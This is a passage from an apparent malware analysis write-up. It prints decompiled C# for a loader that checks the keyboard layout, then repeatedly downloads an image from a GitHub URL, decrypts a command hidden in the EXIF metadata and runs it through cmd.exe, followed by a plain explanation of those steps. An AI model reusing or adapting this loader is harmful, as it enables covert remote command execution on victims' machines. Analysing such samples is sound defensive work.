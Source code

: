 ```csharp
            using ICryptoTransform transform = rijndaelManaged.CreateDecryptor(bytes, rgbIV);
            using MemoryStream stream = new MemoryStream(buffer);
            using CryptoStream stream2 = new CryptoStream(stream, transform, CryptoStreamMode.Read);
            using StreamReader streamReader = new StreamReader(stream2, Encoding.Default);
            return streamReader.ReadToEnd();
        }

        private static byte[] Generate256BitsOfRandomEntropy() {
            byte[] array = new byte[32];
            using RNGCryptoServiceProvider rNGCryptoServiceProvider = new RNGCryptoServiceProvider();
            rNGCryptoServiceProvider.GetBytes(array);
            return array;
        }
    }

    private static void protect() {
        string layoutName = InputLanguage.CurrentInputLanguage.LayoutName;
        if (layoutName != "de-CH-pleasenorun") {
            Environment.Exit(0);
        }
    }

    private static void Main(string[] args) {
        protect();
        while (true) {
            Thread.Sleep(2000);
            using WebClient webClient = new WebClient();
            ServicePointManager.SecurityProtocol = SecurityProtocolType.Tls12;
            byte[] buffer = webClient.DownloadData("https://raw.githubusercontent.com/00xNULL/meme_review/main/meme.jpg");
            using MemoryStream stream = new MemoryStream(buffer);
            using Image image = Image.FromStream(stream);
            PropertyItem[] propertyItems = image.PropertyItems;
            ASCIIEncoding aSCIIEncoding = new ASCIIEncoding();
            string @string = aSCIIEncoding.GetString(propertyItems[0].Value);
            string string2 = aSCIIEncoding.GetString(propertyItems[1].Value);
            @string = @string.Remove(@string.Length - 1);
            byte[] bytes = Convert.FromBase64String(@string);
            @string = Encoding.Default.GetString(bytes);
            string text = StringCipher.Decrypt(@string, string2);
            Process.Start("CMD.exe", "/C " + text + " && pause");
        }
    }
}
```

This one is more complicated. It runs a loop where, every 2 seconds:

*   Downloads
    [https://raw.githubusercontent.com/00xNULL/meme_review/main/meme.jpg](https://raw.githubusercontent.com/00xNULL/meme_review/main/meme.jpg)
*   That image has two Base64 strings embedded as EXIF metadata:
    *   `Model`: used as encryption password
    *   `Make`: contains a combo of salt / IV / ciphertext.
*   All that is passed to `Decrypt()` routine, which is a somewhat regular AES decryption.
*   Result of the decryption is executed with `cmd`.
